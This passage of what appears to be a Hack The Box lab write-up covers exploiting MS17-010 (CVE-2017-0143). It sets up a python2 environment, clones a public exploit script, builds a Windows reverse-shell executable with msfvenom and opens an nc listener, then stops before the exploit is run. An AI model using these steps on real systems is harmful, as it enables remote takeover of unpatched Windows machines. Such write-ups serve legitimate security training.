 ### Exploitation 2 : CVE 2017-0143

For this exploit, we are going to use the script from [here](https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py) to exploit the vulnerability. However, this exploit only works with `python2`. Hence, we will need to first create a virtual environment with `python2` in the local machine. 

To do that, we will first need to install the `virtualenv` module in our local machine and add the `virtualenv` module to path so that we can call it from any directory.

```bash
┌──(kali㉿kali)-[~]
└─$ pip3 install virtualenv 
┌──(kali㉿kali)-[~]
└─$ cd /home/kali/.local/bin  && sudo mv virtualenv /usr/local/bin/
```

Next, we will then create our virtual environment that is running on `python2.7` and activate the virtual environment

```bash
┌──(kali㉿kali)-[~]
└─$ virtualenv --python=/usr/bin/python2.7 /home/kali/Desktop/htb && source htb/bin/activate
```

Next, we will have to clone the repository and install `impacket` using `pip` as it is a dependency that we need later.

```bash
┌──(htb)─(kali㉿kali)-[~]
└─$ git clone https://github.com/helviojunior/MS17-010 && pip install impacket 
```

The exploit runs with the following exploit with the following syntax `send_and_execute.py <IP> <executable_file> [port] [pipe name]`. Hence, we will need to create an executable file that can spawn a reverse shell. 

To do so, we will have to create the executable file with `msfvenom`

```bash
┌──(kali㉿kali)-[~/Desktop/MS17-010]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.250 LPORT=443 EXITFUNC=thread -f exe -a x86 — platform windows -o rev_shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Next we will have to open a listener shell on the attacker's machine.

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nc -nlvp 443
```

All that is left for us to do, is to execute the exploit.
